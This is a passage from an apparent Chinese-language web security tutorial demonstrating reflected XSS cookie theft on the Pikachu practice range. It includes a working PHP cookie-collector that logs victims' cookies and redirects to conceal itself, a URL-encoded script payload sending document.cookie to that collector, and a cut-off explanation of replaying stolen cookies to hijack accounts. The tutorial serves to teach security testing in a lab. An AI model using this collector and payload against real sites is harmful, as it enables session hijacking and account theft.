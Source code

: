 可以访问到 cookie：  

<Image alt="图片10.png" src="https://s0.lgstatic.com/i/image2/M01/04/3F/CgpVE1_r7PeAeYKNAAKRGDzBTuE416.png"/> 
  
图 18：成功通过 JS 读取 Cookie

接下来，我们就可以在自己控制的服务器写个接收 cookie 的接口，比如 cookie.php。刚好 Pikachu 靶场自带这样的功能，我以它为例，并加了关键代码的注释：

```php
<?php
	include_once '../inc/config.inc.php';
	include_once '../inc/mysql.inc.php';
	$link=connect();  // 连接数据库
	
	//这个是获取 cookie 的 api 页面
	if(isset($_GET['cookie'])){  // 通过 GET 参数 cookie 来接收数据
	    $time=date('Y-m-d g:i:s');
	    $ipaddress=getenv ('REMOTE_ADDR');
	    $cookie=$_GET['cookie'];
	    $referer=$_SERVER['HTTP_REFERER'];
	    $useragent=$_SERVER['HTTP_USER_AGENT'];
	    $query="insert cookies(time,ipaddress,cookie,referer,useragent) 
	    values('$time','$ipaddress','$cookie','$referer','$useragent')";
	    $result=mysqli_query($link, $query); // 将窃取的数据存入数据库
	}
	header("Location:http://192.168.1.4/pikachu/index.php");//重定向到一个可信的网站，主要起到隐藏作用，避免被发现
	
	?>
```

这个 cookie.php 通过 GET 参数 cookie 来接收数据，那我们向它传递 document.cookie 的值就可以窃取想要的 cookie 了。基于此，我们重新构造 URL。

**注意要做 URL 编码，否则"+"连接符会被吃掉，导致无法窃取 cookie**。

```java
http://localhost/vul/xss/xss_reflected_get.php?message=%3Cscript%3Edocument.location+%3D+%27http%3A%2F%2Flocalhost%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%27+%2B+document.cookie%3B%3C%2Fscript%3E&submit=submit
```

我们打开 http://localhost/pkxss/pkxss_login.php 上 XSS 后台（第一次使用时按提示点安装，然后用默认帐密登录：admin/123456），可以看到已经成功窃取到Cookie：


<Image alt="图片11.png" src="https://s0.lgstatic.com/i/image/M00/8C/0E/CgqCHl_kTAmAQB_aAAEDK3yLJkY943.png"/> 
  
图 19：窃取到 Cookie

网上也有很多开源的 XSS 平台用来接收 Cookie，你在GitHub 搜索就可以找到很多，大多数可以直接通过 Docker 快速安装。


<Image alt="Drawing 19.png" src="https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOtaASyQeAAHRnEyplEU737.png"/> 
  
图 20：各种开源的 XSS 利用平台

获取 Cookie 后，我们就可以本地修改 Cookie 来登录受害者的账号（除非刚好窃取的 Cookie 不包含用户登录信息，比如未登录状态下访问的攻击链接），可以使用 Chrome 插件 EditThisCookie 来设置窃取的 Cookie：
